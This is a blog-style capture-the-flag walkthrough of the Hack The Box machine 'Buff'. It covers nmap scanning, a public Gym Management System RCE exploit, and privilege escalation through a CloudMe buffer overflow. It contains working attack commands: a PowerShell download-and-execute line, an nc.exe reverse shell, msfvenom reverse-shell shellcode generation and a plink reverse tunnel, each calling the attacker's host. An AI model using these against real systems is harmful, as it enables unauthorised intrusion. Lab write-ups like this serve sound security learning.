 ```yaml
---
layout: post
title: HTB Buff Walkthrough
categories: [HTB, OSCP]
---
```


As I was dedicated to place one box every day i was planning to put another box. I hit hard bottom for some reason exploit is not working and I have no clue how to move now. So i decide to take break on this machine and try break another one in few hours in night and try write blog about this. And here we are. Please enjoy this box as I did :)

![](/images/buff-htb/logo)

I started with simple nmap script

```bash
nmap -sC -sV -oA nmap/inital -Pn 10.10.10.198
# Nmap 7.91 scan initiated Mon Feb  1 22:17:42 2021 as: nmap -sC -sV -oA nmap/inital -Pn 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up.
All 1000 scanned ports on 10.10.10.198 are filtered

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb  1 22:21:04 2021 -- 1 IP address (1 host up) scanned in 202.13 seconds
```

Scan did not show any ports which was really strange. Ok try nmap on all TCP ports

```bash
nmap -p - -oA nmap/allports -Pn 10.10.10.198
# Nmap 7.91 scan initiated Mon Feb  1 22:22:06 2021 as: nmap -p - -oA nmap/allports -Pn 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up (0.15s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

# Nmap done at Mon Feb  1 22:27:07 2021 -- 1 IP address (1 host up) scanned in 301.37 seconds
```

One port open 8080 as http-proxy. I open firefox and navigate to this site on this port

![](/images/buff-htb/01-signature.png)

Website looks like CMS site but signature on this website was quite different.. Google for this name.

![](/images/buff-htb/02-gym-exploit.png)

Bingo! There is an exploit for it. Also check in searchsploit.

```bash
searchsploit gym management
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                     | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                  | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                            | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                  | php/webapps/48506.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Unauthenticated Remote COde Execution? That sounds like gun i need :) 

```bash
python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

I was in. Tried to get proper shell now. *powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')" *
did not work :/

```powershell
C:\xampp\htdocs\gym\upload> \\10.10.14.9\smb\nc.exe -e cmd.exe 10.10.14.9 9001
```

Try to run nishang shell now as i can see output. I also can just run -e with powershell.exe. 
```powershell
C:\xampp\htdocs\gym\upload>powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')"
powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')"
IEX : At line:1 char:1
+ function Invoke-PowerShellTcp
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.                              
At line:1 char:1
+ IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell ... 
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
     + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
     + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```

So it was AMSI that blocked me. Looking around home directory I found application called clouedme

```cmd
C:\Users\Administrator\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\Administrator\Downloads

18/07/2020  16:36    <DIR>          .
18/07/2020  16:36    <DIR>          ..
16/06/2020  15:46        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,882,407,936 bytes free
```

Quick google search reveal that this version contain buffer overflow exploit. 

![](/images/buff-htb/03-bof-root.png)

i checked for first exploit. Looking for the exploit it need to connect on port 8888. 

```cmd
C:\Users\Administrator\Downloads>netstat -ano | findstr 8888      
netstat -ano | findstr 8888
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       756
```

Our exploit contain POC for pop-up calc on desktop which did not make any sense for us. We decide to change payload to reverse shell
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=9002 =b '\x00\x0A\x0D' -f python
```

Replace shellcode with new one generated. Now i need to expose localhost port me as i was not planning to install python on this machine. I used plink.exe. (there is an issue with plink.exe default on machine. Always download latest version from website)

PS C:\users\shaun\downloads> .\plink.exe -R 8888:127.0.0.1:8888 -P 4222 root@10.10.14.9

I had to use non standard port as HTB will not allow to connect on port 22.

After that just lunch me netcat session and execute python script

![](/images/buff-htb/04-root.png)
